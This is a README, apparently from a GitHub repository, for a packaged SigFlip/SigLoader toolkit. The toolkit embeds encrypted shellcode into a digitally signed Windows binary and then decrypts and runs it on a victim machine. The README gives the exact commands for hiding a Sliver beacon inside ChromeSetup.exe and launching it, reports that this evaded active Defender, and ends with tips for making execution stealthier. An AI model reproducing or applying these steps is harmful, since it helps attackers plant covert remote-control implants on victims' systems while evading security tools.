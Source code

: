 # SigFlip / SigLoader

## Background

These tools are used for embedding custom shellcode into a **signed** binary. The binary is executed in a victim system using *SigLoader.exe*. A Windows machine is required for using this toolkit.

Since the (malicious) shellcode is encrypted, this method is highly effective at smuggling shellcode into the victim host past any defensive measures.

[Link](https://github.com/med0x2e/SigFlip) to the original Git repository.


Two executables and three libraries have been already compiled using VS Studio. The ready-to-use toolbox includes five files listed in the table below.


|File | Function | Purpose |
|:-:|:-:|:-:|
|SigFlip.exe| Shellcode encrypter & injector| Execute in attacker's Windows machine|
|SigLoader.exe | Shellcode decrypter & loader | Execute in victim's Windows machine |
|vcruntime140d.dll| DLL required by SigLoader.exe| Transfer to victim machine with SigLoader |
|ucrtbased.dll| DLL required by SigLoader| Transfer to victim machine with SigLoader |
|ucrtbase.dll| DLL required by SigLoader| Transfer to victim machine with SigLoader |

<br>

## Technical information

For this attack, two separate executables are used. 

**SigFlip** is a tool to embed shellcode into a digitally signed binary. Before embedding the shellcode into  PE file's WIN_CERTIFICATE *certificate table*, the shellcode is encrypted with a password provided by the user (symmetric encryption). 

The shellcode is separately generated in a raw binary format (for example using `-f raw ` in Metasploit, `-f shellcode` for Sliver and so on).

This creates a new signed binary with the embedded encrypted shellcode and a valid digital signature.
 

**SigLoader** is used in the victim system to find the encrypted shellcode from the specified binary, to be decrypted with a given password, loaded into memory and executed. 

The loader executable utilizes an egg-hunt style mechanic to find the shellcode's position by looking for a hex value *0xfeedface*. Once the shellcode is found it is decrypted and loaded into memory and executed. 


## Embedding shellcode to a signed binary

A digitally signed binary *ChromeSetup.exe* was used for testing purposes. As shellcode, a Sliver beacon payload was used.

The following syntax is used to encrypt a shellcode and embed it into a binary:

```cmd
SigFlip.exe -i <ORIG_EXE> -s <SHCODE.BIN> -o <OUTFILE.EXE> -e <PASSWORD>

SigFlip.exe -i .\ChromeSetup.exe -s .\beacon.bin -o mod_chrome.exe -e password
```

## Executing the loader and shellcode on the victim machine

Deliver the loader files (SigLoader.exe + 3 DLLs) along with the *mod_chrome.exe* to the victim machine. 

To execute the encrypted shellcode inside *mod_chrome.exe*, run the following command on the target system:

```cmd
SigLoader.exe mod_chrome.exe password
```

In the example below, SigLoader was used to execute a Sliver beacon shellcode on Windows 10 with Defender up-to-date and active (11th May, 2023): 

![execution](./images/SigLoader_execution_in_target_system.png)

The following screenshot shows Sliver server catching the callback from agent.

![calling back](./images/beacon_calling_back_to_sliver_server.png)

### Improvement ideas

General ideas for making the execution more stealthy:

- Run the command with *Run* as a hidden process
- Modify the source code to make SigLoader not print such suspicious texts
- Deliver 

